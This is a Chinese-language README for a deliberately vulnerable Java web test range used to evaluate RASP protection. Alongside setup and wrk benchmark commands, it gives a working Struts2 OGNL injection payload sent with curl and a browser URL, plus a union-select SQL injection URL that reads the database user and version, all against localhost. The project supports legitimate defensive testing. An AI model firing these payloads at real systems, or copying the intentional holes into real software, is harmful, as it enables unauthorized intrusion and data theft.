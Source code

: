 # JavaWeb RASP漏洞测试环境



## 1. 项目说明

1. RASP漏洞测试环境主要包含了两个项目:`rasp-test-springboot`和`rasp-test-struts2`，它们使用了相同的源代码分别用于测试`SpringBoot`和`Struts2`漏洞；
2. `rasp-test-core`包含了基于SpringMVC实现的所有的测试用例接口；
3. `rasp-test-jakarta-servlet`和`rasp-test-servlet`用于测试Java EE的兼容性；
4. `rasp-test-shiro`用户测试shiro漏洞；



启动`rasp-test-struts2`之后能够看到一个RASP测试导航：

<img src="images/image-20210803164543721.png" alt="image-20210803164543721" style="zoom:50%;" />

项目内置了用于性能测试的两个接口`IndexController.getUserByName/getSysUserByName`一个采用了传统的GET/POST传参，另一个采用了JSON方式传参：

<img src="images/image-20210803165139192.png" alt="image-20210803165139192" style="zoom:50%;" />

测试参数如下：

```bash
wrk -t200 -c500 -d30s --latency "http://localhost:8000/getUserByName.do?username=admin" 
```

JSON接口测试：

```bash
wrk -t200 -c500 -d30s --script=/Users/yz/user.lua --latency "http://localhost:8000/getSysUserByName.do" 
```

**user.lua：**

```lua
wrk.method = 'POST' 
wrk.headers['Content-Type'] = 'application/json'  
wrk.body = '{"username": "admin"}' 
```

除此之外，为了便于测试Web漏洞，在`rasp-test-struts2/src/main/webapp/modules`目录根据漏洞类型写了非常多的示例。



## 2. 靶场配置

靶场采用了Sqlite和Mysql两种数据库，如果您想安装数据库可以使用Sqlite进行测试，如果选用Mysql测试需要先创建：`javaweb-bbs`数据库，并导出项目根目录的`javaweb-bbs.sql`文件，然后修改`rasp-test-struts2/src/main/resources/config/jdbc.properties`或`rasp-test-springboot/src/main/resources/application.properties`配置文件中的数据库账号密码。


## 3. Struts2 OGNL表达式注入

`rasp-test-struts2`使用的是`Struts2 2.1.8`版本存在`Struts2`命令执行漏洞，访问的`action`是`rasp.action`可以使用`Struts2`的`Payload`进行检测，例如发送如下`Payload`服务器会返回`[/ok]`:

```
redirect:${%23w%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),%23w.println('[/ok]'),%23w.flush(),%23w.close()}
```

如使用`curl`发送`Payload`：

```
curl -i http://localhost:8000/rasp.action -d "redirect:%24%7b%23w%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),%23w.println('[/ok]'),%23w.flush(),%23w.close()%7d"
```
或者使用浏览器访问(需要注意的是Tomcat8+不能使用URL传参):`http://localhost:8000/rasp.action?redirect:%24%7b%23w%3d%23context.get(%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27).getWriter(),%23w.println(%27[/ok]%27),%23w.flush(),%23w.close()%7d`

![](./images/1588764042020.jpg)



## 4. SQL注入

几乎所有可以传参的地方都存在SQL注入，例如获取文章详情页中的`articleId`参数存在注入，如使用算数符获取ID为10000的文章(`articleId=100001-1`)：
<img src="./images/1588767982847.jpg" style="zoom:67%;" />

注入数据库信息：
`http://localhost:8000/getArticle.do?articleId=100001%20and%201=2%20union%20select%201,2,user(),4,version(),null,7`
<img src="./images/1588820291794.jpg" style="zoom:50%;" />

需要注意的是因为数据库查询的时候有一个字段是`private Date publishDate;`所以注入的时候需要注意数据字段类型，上述`union select`注入示例使用了`null`占位。



## 5. 其他测试用例

`rasp-test-core`项目中的`org.javaweb.vuln.controller`包下面包含了非常多的其他测试用例。